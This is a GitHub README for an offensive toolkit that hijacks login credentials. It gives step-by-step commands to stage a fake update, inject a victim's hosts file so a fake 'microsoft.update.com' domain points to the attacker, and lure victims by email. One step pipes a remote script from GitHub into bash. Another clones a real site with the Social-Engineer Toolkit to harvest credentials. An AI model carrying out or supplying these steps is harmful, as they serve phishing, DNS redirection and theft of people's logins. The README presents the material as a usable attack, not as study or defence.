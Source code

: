 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/hijacking.jpg)
=======================================================================================================


***Installing requirements and tools:***

-  [git](https://github.com/trustedsec/social-engineer-toolkit)

-  [curl](https://curl.haxx.se/)

-  [apache2](https://httpd.apache.org/docs/2.4/howto/public_html.html)

-  [SOCIAL-ENGINEER TOOLKIT (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

-  [Python](https://www.python.org/)

-  [Kali Linux](https://www.kali.org/)

<a class="white" href="https://github.com/monero-project/kovri-site/blob/master/kovri.i2p/legal/terms.md" target="_blank">

------------------------------------------------------------

# Exploit steps:
- PWN OS HTTPS hijacking

1. - Preparing a fake update for the victim:
```bash
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials.git
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     
     // fakesite.login.com

```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject

bash fakehost.sh
     
     # NOTE: You should set up your Network setup to STATIC!
     
     # For example:
     # with IP 10.10.10.100 or 192.168.1.100
     # Or it'd depend from the local network in leyar2
     # WARNING: The host_injector is working only with these IP's from A class of networks
     //10.10.10.100// and //192.168.1.100//
     
     type the attacker IP 10.10.10.100 # or 192.168.1.100
     
     type the fake domain microsoft.update.com
     
     enter
```
3. - Sending an email or an extra lure on your victim to injecting her `hosts` file.


- **conclusion** and ***NOTE:*** This is the DNS attack which using an injection method against the victim hosts file.
        In that way, the victim will never know what actually opening on the browser when clicking on your link. The idea is         when the victim clicks on your link and opens the browser is not to see your IP
        and to see what you want to do it. When the victim opens your `fake domain` no matter what protocol is using `HTTP`         or `HTTPS`. The victim will never understand what actually is hidden behind this domain. ;)
```
Тhat's the hardest part ;)
I will give you a decision soon, but until then you should create your own!
There is no easy things in this world. ;)
```
4. - Listening for victim visiting

```bash
     curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/Hijack-HTTPS-Listener/kazkuvgluvutu.sh | bash
```

5. - After exploiting the victim you should ***Stop Apache2***
```bash
systemct stop apache2.service
```
-------------------------------------------------------------

***SECOND PART***

1. - setoolkit cloning of real website
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
2. - Sending a hijack email of the victim.
```bash

```

3. - Receiving the hits from browser of the victim





